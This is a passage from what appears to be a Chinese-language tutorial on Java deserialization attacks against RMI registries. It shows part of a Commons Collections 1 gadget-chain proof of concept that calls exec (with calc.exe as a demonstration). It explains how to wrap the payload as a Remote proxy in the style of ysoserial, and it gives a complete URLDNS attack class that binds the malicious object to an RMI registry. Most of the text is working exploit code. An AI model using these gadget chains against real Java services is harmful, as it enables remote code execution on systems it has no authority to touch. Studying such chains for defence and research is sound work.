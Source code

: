 ```java
                new InvokerTransformer("exec", new Class[] { String.class },
                        new String[] {
                                "calc.exe" }),
        };

        Transformer transformerChain = new
                ChainedTransformer(transformers);

        Map innerMap = new HashMap();

        // new
        innerMap.put("value", "xxxx");
        // new

        Map outerMap = TransformedMap.decorate(innerMap, null,
                transformerChain);

        Class clazz =
                Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
        construct.setAccessible(true);
        Object obj = construct.newInstance(Retention.class, outerMap);
        return obj;
    }

}
```

从CC1的poc代码可以看出，构建poc代码的一个关键点在于如何将我们的恶意对象包装为实现了Remote接口的类，CC1由于本身的特殊性，最终生成的对象实现了InvocationHandler接口，借助动态代理可以很容易的包装为任意类。其他没有利用AnnotationInvocationHandler的gadget链如何包装了，这里我们可以借鉴ysoserial的做法，它其实也是使用了Annot

ationInvocationHandler将我们生成的恶意对象又包装了一层。以URLDNS为例，poc代码如下:

```java
import org.example.payload.URLDNS;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Naming;
import java.rmi.Remote;
import java.util.HashMap;
import java.util.Map;

public class URLDNSAttackRegister {
    public static void main(String[] args) throws Exception {
        String url = "";
        HashMap obj = (HashMap) new URLDNS().getObject(url);

        Map<String, Object> map = new HashMap<String, Object>();
        map.put("DNSURL", obj);

        Class clazz =
                Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class,
                Map.class);
        construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler)
                construct.newInstance(Override.class, map);
        Remote proxyEvalObject = (Remote) Proxy.newProxyInstance(Remote.class.getClassLoader(), new Class[]{Remote.class}, handler);
        String host = "rmi://192.168.110.146:1099/";
        Naming.rebind(host+"URLDNS", proxyEvalObject);
    }
}
```
